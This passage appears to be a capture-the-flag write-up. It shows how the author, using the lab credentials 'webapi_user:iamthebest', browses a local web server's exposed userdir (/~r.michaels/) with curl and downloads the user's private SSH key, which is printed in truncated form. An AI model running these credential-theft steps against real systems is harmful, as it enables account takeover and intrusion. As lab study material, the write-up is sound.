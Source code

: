 * Running server is nginx and like apache2 [mod_userdir](https://httpd.apache.org/docs/2.4/mod/mod_userdir.html) nginx also have this option. this allow user to create a shared dir in the `home/<user>` folder can be accessible form server with using  `~` in prefix.

* and the server on port 3001 is run by the user r.michaels

	`ps -aux | grep 185`

	  r.michaels  185  0.0  0.0  34996  2004 ?     Is    6:18AM 0:00.00 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3001 -L weather /home/r.michaels/devel/webapi/weather.lua -P /var/run/httpd_devel.pid -U r.michaels -b /home/r.michaels/devel/www 

* and when testing for shared folder i found the user r.michaels ssh key's copy in the shared folder -
```diff
$ curl --user webapi_user:iamthebest "http://127.0.0.1:3001/~r.michaels/"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   601    0   601    0     0   195k      0 --:--:-- --:--:-- --:--:--  195k
<!DOCTYPE html>
<html><head><meta charset="utf-8"/>
<style type="text/css">
table {
        border-top: 1px solid black;
        border-bottom: 1px solid black;
}
th { background: aquamarine; }
tr:nth-child(even) { background: lavender; }
</style>
<title>Index of ~r.michaels/</title></head>
<body><h1>Index of ~r.michaels/</h1>
<table cols=3>
<thead>
<tr><th>Name<th>Last modified<th align=right>Size
<tbody>
+<tr><td><a href="../">Parent Directory</a><td>16-Sep-2020 18:20<td align=right>1kB
+<tr><td><a href="id_rsa">id_rsa</a><td>16-Sep-2020 16:52<td align=right>3kB
</table>
</body></html>
```

## USER:r.michaels shell

`curl --user webapi_user:iamthebest http://127.0.0.1:3001/~r.michaels/id_rsa`
```
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2610  100  2610    0     0   849k      0 --:--:-- --:--:-- --:--:-- 1274k
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
...
45bBkP5xOhrjMAAAAVci5taWNoYWVsc0BsdWFubmUuaHRiAQIDBAUG
-----END OPENSSH PRIVATE KEY-----
```
